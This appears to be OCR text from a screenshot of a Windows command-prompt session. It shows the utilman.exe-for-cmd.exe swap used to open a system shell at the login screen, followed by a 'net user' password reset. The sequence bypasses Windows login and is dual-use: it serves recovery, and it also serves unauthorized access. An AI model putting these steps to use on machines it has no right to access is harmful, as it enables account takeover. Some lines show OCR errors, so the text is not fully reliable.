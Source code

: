 Shift + 10

X: \Sources>wmic logicaldisk get name
Name
C:
D:
E:
X:

X: \Sources>C:

C: \>dir
Volume in drive C is System Reserved
Volume Serial Number is 56E1-426F

Directory of C:\

File Not Found

E: \>D:

D: \>cd Windows

D: \Windows>cd System32

D: \Windows\System32>ren utilman.exe utilman2.exe

D: \Windows\System32>copy cmd.exe utilman.exe
1 file(s) copied.

Click Ease of Access

net user may password
